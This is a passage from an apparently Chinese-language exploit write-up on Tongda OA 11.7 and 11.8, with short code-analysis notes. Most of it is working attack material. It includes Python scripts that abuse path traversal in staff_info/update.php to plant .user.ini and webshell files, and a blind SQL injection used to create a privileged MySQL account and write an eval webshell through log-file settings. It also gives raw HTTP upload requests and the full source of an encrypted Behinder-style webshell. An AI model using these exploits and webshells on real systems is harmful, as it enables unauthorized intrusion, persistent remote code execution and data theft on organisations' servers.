LTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0CkNvbnRlbnQtRGlzcG9zaXRpb246IGZvcm0tZGF0YTsgbmFtZT0ic3VibWl0IgoK5o+Q5LqkCi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tMTc1MTgzMjM5ODY1NDg5OTI5NTE5ODQwNTcxMDQtLQo=")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/test \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传 test.log 文件, \033[0m".format(target_url))
            POC_3(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传 test.log 文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, Cookie):
    vuln_url = target_url + "/general/reportshop/workshop/report/attachment-remark/form.inc.php?"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":  Cookie,
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/reportshop/workshop/report/attachment-remark/form.inc.php? \033[0m".format(target_url))
        if "test_Wiki" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞，响应中包含 test_Wiki \033[0m".format(target_url))
            print("\033[32m[o] 成功上传蚁剑木马 密码为: test \n[o] webshell路径: {}/general/reportshop/workshop/report/attachment-remark/form.inc.php?\033[0m".format(target_url))
            sys.exit(0)
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞，响应中不包含 test_Wiki\033[0m".format(target_url))
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    while True:
        POC_0(target_url)
        time.sleep(5)
```

**代码分析**

漏洞点在`mobile\auth_mobi.php`



这是11.7与11.8的对比图。

分析左边代码可知，$uid参数带入数据库查询，返回`$p= $row["SID"]`，然后下面判断$P是否为空，则relogin重新登陆。也就是说我们通过遍历uid当前所有在线账户。

## 后台SQL注入getshell

**漏洞复现**

在`/general/hr/manage/query/delete_cascade.php该文件的`condition_cascade`参数存在
布尔盲注。

```
GET /general/hr/manage/query/delete_cascade.php?condition_cascade=select if((substr(user(),1,1)='r'),1,power(9999,99)) HTTP/1.1
Host: 10.30.1.53
```

1. 添加用户(远程连接，账户为at666，密码为abcABC@123,端口为3336)

`grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION`



2. 添加的账户不能直接通过日志慢查询写入文件，需要给创建的账户添加权限

```
UPDATE `mysql`.`user` SET `Password` = '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('at666' AS Binary(5));
```



3. 直接用注入点刷新权限，因为at666没有刷新权限，需要在后台刷新。
```
general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;
```



4. 再次回到navicat，提示密码过期，需要重新执行命令。

```
grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION
```




5. 最后开始写shell(antsword连接时需要cookie)

```php
## 方法一
select @@basedir; //查询绝对路径，我这里是C:\tongda11.7\mysql5\ 

set global slow_query_log=on;

set global slow_query_log_file='C:/tongda11.7/webroot/test.php';

select '<?php eval($_POST[x]);?>' or sleep(11);

## 方法二

select @@basedir;

set global general_log = on;

set global general_log_file ='C:/tongda11.7/webroot/test2.php';

select '<?php eval($_POST[x]);?>';

show variables like '%general%';
```




**代码分析**

漏洞点在`general/hr/manage/query/delete_cascade.php`



判断condition_cascade参数不为空的话则将`\'`替换为`'`,这一替换原因是在`common.inc.php`有对全局变量的一个addslashes过滤函数。通达oa的过滤机制在`inc/conn.php`如下：



但盲注核心是:substr、if等函数，未被过滤，这里用if盲注来判断报错信息

`select if((substr(user(),1,1)='r'),1,power(9999,99))`

这里字符串相等时不报错，不等的时候会报错。



## 通达oa11.8

## 指纹特征-11.8
前台特征没啥变化，跟前几个版本一样。

访问inc/expired.php可看出版本
## 11.8后台getshell

**漏洞复现**

思路是，先上传.user.ini来使它包含一个日志文件，再上传这个日志文件，内容为一句话木马，最后访问当前目录的php文件getshell。原理是user.ini后门。

上传.user.ini文件
```php
POST /general/hr/manage/staff_info/update.php?USER_ID=../../general\reportshop\workshop\report\attachment-remark/.user HTTP/1.1
Content-Type: multipart/form-data; boundary=---------------------------17518323986548992951984057104


-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="ATTACHMENT"; filename="111111.ini"
Content-Type: text/plain

auto_prepend_file=1.log
-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="submit"

提交
-----------------------------17518323986548992951984057104--
```



可以看到写入了`.user`文件，内容为`auto_prepend_file=1.log`。

上传1.log文件
```php
POST /general/hr/manage/staff_info/update.php?USER_ID=../../general\reportshop\workshop\report\attachment-remark/1 HTTP/1.1
Content-Type: multipart/form-data; boundary=---------------------------17518323986548992951984057104


-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="ATTACHMENT"; filename="1.log"
Content-Type: text/plain

<?php
@error_reporting(0); session_start();
    $key="e45e329feb5d925b";
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="submit"

提交
-----------------------------17518323986548992951984057104--
```



最后用冰蝎连接，需要添加请求头，如图：





注意点：修改.user.ini并不是即时生效的，一般来说需要等待一会儿即可。

**代码分析**

漏洞点:`/general/hr/manage/staff_info/update.php`



`$USER_ID`可控，拼接到$FILENAME参数后带到文件上传

python脚本利用

```py
import base64
import requests
import sys
import re
import time


RED = '\x1b[1;91m'
BLUE = '\033[1;94m'
GREEN = '\033[1;32m'
BOLD = '\033[1m'
ENDC = '\033[0m'


def test(target_url,cookie):
	print(target_url)
	print(cookie)


def Upload_Ini(target_url,cookie):
    headers = {
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.360',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Cookie': cookie,
        'Content-Type': 'multipart/form-data; boundary=---------------------------17518323986548992951984057104',
    }
    payload = 'general/hr/manage/staff_info/update.php?USER_ID=../../general\\reportshop\workshop\\report\\attachment-remark/.user'
    data = base64.b64decode(
        'LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0iMTExMTExLmluaSIKQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluCgphdXRvX3ByZXBlbmRfZmlsZT0xMTExMTEubG9nCi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tMTc1MTgzMjM5ODY1NDg5OTI5NTE5ODQwNTcxMDQKQ29udGVudC1EaXNwb3NpdGlvbjogZm9ybS1kYXRhOyBuYW1lPSJzdWJtaXQiCgrmj5DkuqQKLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNC0t')
    try:
        res = requests.post(url=target_url + payload, data=data, headers=headers, timeout=5)
        if res.status_code == 200 and '档案已保存' in res.text:
            print(BLUE + '[*] 成功上传.user.ini文件!' + ENDC)
            Upload_Log(target_url, cookie)
            sys.exit(0)
        else:
            print(RED + '[-] 上传.user.ini文件失败!' + ENDC)
            sys.exit(0)
    except:
        pass


def Upload_Log(target_url,cookie):
    headers = {
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.360',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Cookie': cookie,
        'Content-Type': 'multipart/form-data; boundary=---------------------------17518323986548992951984057104',
    }
    payload = 'general/hr/manage/staff_info/update.php?USER_ID=../../general\\reportshop\workshop\\report\\attachment-remark/111111'
    data = base64.b64decode(
        'LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0iMTExMTExLmxvZyIKQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluCgo8P3BocApAZXJyb3JfcmVwb3J0aW5nKDApOyBzZXNzaW9uX3N0YXJ0KCk7CiAgICAka2V5PSJlNDVlMzI5ZmViNWQ5MjViIjsKCSRfU0VTU0lPTlsnayddPSRrZXk7CglzZXNzaW9uX3dyaXRlX2Nsb3NlKCk7CgkkcG9zdD1maWxlX2dldF9jb250ZW50cygicGhwOi8vaW5wdXQiKTsKCWlmKCFleHRlbnNpb25fbG9hZGVkKCdvcGVuc3NsJykpCgl7CgkJJHQ9ImJhc2U2NF8iLiJkZWNvZGUiOwoJCSRwb3N0PSR0KCRwb3N0LiIiKTsKCQkKCQlmb3IoJGk9MDskaTxzdHJsZW4oJHBvc3QpOyRpKyspIHsKICAgIAkJCSAkcG9zdFskaV0gPSAkcG9zdFskaV1eJGtleVskaSsxJjE1XTsgCiAgICAJCQl9Cgl9CgllbHNlCgl7CgkJJHBvc3Q9b3BlbnNzbF9kZWNyeXB0KCRwb3N0LCAiQUVTMTI4IiwgJGtleSk7Cgl9CiAgICAkYXJyPWV4cGxvZGUoJ3wnLCRwb3N0KTsKICAgICRmdW5jPSRhcnJbMF07CiAgICAkcGFyYW1zPSRhcnJbMV07CgljbGFzcyBDe3B1YmxpYyBmdW5jdGlvbiBfX2ludm9rZSgkcCkge2V2YWwoJHAuIiIpO319CiAgICBAY2FsbF91c2VyX2Z1bmMobmV3IEMoKSwkcGFyYW1zKTsKPz4KLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9InN1Ym1pdCIKCuaPkOS6pAotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0LS0=')
    try:
        res = requests.post(url=target_url + payload, data=data, headers=headers, timeout=5)
        if res.status_code == 200 and '档案已保存' in res.text:
            print(BLUE + '[*] 成功上传log文件!' + ENDC)
            Get_Shell(target_url, cookie)
            sys.exit(0)
        else:
            print(RED + '[-] 上传log文件失败!' + ENDC)
            sys.exit(0)
    except:
        pass


def Get_Shell(target_url,cookie):
    headers = {
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.360',
        'Cookie': cookie
    }
    payload = 'general/reportshop/workshop/report/attachment-remark/form.inc.php'
    try:
        res = requests.get(url=target_url + payload, headers=headers, timeout=5)
        if res.status_code == 200:
            print(GREEN + '[+] 成功上传蚁剑shell, 密码为: rebeyond' + ENDC)
            print(GREEN + '[+] Shell地址为: {}'.format(target_url + payload) + ENDC)
            sys.exit(0)
        else:
            print(GREEN + '[+]  成功上传蚁剑shell, 密码为: rebyeond' + ENDC)
            print(GREEN + '[+] Shell地址为: {}'.format(target_url + payload) + ENDC)
            print(RED + '[!] 可能需要等待一会儿即可连接。' + ENDC)
            sys.exit(0)
    except:
        pass


if __name__ == '__main__':
    print(GREEN + ("URL格式 : http://127.0.0.1/"))
    target_url = input(BLUE+('请输入你的目标URL: '))
    print(GREEN+("Cookie格式: USER_NAME_COOKIE=admin; PHPSESSID=xxxxx; OA_USER_ID=admin; SID_1=xxxx"))
    cookie = input(BLUE+('请输入你的cookie: '))
    test(target_url,cookie)
    Upload_Ini(target_url,cookie)
```


